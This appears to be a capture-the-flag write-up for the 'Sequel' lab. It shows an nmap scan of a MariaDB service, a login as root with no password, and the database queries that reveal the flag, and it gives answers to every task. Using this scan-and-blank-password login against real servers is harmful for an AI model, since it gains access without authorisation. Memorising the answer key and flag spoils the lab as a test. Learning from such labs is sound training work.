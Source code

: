 # Sequel

## Task 1

> What does the acronym SQL stand for?

structured query language

## Task 2

> During our scan, which port running mysql do we find?

3306

## Task 3
> What community-developed MySQL version is the target running?

MariaDB

```
nmap --script=mysql-info 10.129.233.146
```

```out
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-17 18:55 EDT
Nmap scan report for 10.129.233.146
Host is up (0.033s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 60
|   Capabilities flags: 63486
|   Some Capabilities: ODBCClient, FoundRows, SupportsLoadDataLocal, Support41Auth, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, SupportsCompression, Speaks41ProtocolOld, InteractiveClient, Speaks41ProtocolNew, SupportsTransactions, LongColumnFlag, ConnectWithDatabase, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: cxPh8~5+v4=v\J<.nb~u
|_  Auth Plugin Name: mysql_native_password

Nmap done: 1 IP address (1 host up) scanned in 20.94 seconds
```

* MySQL Penetration Testing with Nmap - Hacking Articles  
  https://www.hackingarticles.in/mysql-penetration-testing-nmap/

## Task 4

> What switch do we need to use in order to specify a login username for the MySQL service?

-u (or --user)

`man mysql`

## Task 5

> Which username allows us to log into MariaDB without providing a password?

root

(Just guessed.)

## Task 6

> What symbol can we use to specify within the query that we want to display everything inside a table?

\*

## Task 7

> What symbol do we need to end each query with?

;

## Task 8

> Submit root flag

7b4bec00d1a39e3dd4e021ec3d915da8

First need to connect to the remote server which is running on the
default port and has a `root` account with no password.

```
mysql -u root -h 10.129.236.203
```

Once connected just look up all the databases.

```
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.042 sec)
```

Show the tables of each and look for a likely place to hide the flag.

```
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.034 sec)

MariaDB [htb]> describe config;
+-------+---------------------+------+-----+---------+----------------+
| Field | Type                | Null | Key | Default | Extra          |
+-------+---------------------+------+-----+---------+----------------+
| id    | bigint(20) unsigned | NO   | PRI | NULL    | auto_increment |
| name  | text                | YES  |     | NULL    |                |
| value | text                | YES  |     | NULL    |                |
+-------+---------------------+------+-----+---------+----------------+
3 rows in set (0.044 sec)

MariaDB [htb]> select * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.031 sec)
```

